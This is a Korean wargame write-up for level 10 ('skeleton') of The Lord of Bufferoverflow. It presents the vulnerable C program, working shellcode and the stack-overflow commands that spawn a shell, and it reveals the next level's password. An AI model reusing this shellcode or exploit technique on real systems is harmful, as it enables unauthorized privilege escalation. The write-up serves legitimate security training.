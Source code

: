 ```yaml
---
layout: post
title:  "[LOB]Level10. skeleton"
subtitle:   "[LOB]vampire → skeleton"
categories: Write-up
tags:
- Wargame
- LOB(The Lord of Bufferoverflow)
- Write-up
---
```


## keyword : argv hunter

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - skeleton
        - argv hunter
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i, saved_argc;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	// argc saver
	saved_argc = argc;

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// ultra argv hunter!
	for(i=0; i<saved_argc; i++)
		memset(argv[i], 0, strlen(argv[i]));
}
```

'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81

egg hunter + buffer hunter + **argv hunter**

```sh
[vampire@localhost vampire]$ ln -sf skeleton `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*100'`

[vampire@localhost vampire]$ ./`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*100'` `python -c 'print "A"*44+"\x30\xff\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0���
bash$  my-pass
euid = 510
shellcoder
bash$
```



> 심볼릭 링크 만들때 뒷부분에 NOP를 안넣으니 계속 segment fault가 떳다. 메모리 끝부분에 붙어있으면 잘 안된다고 한다.. 왤까....;;😢



##### **skeleton / shellcoder**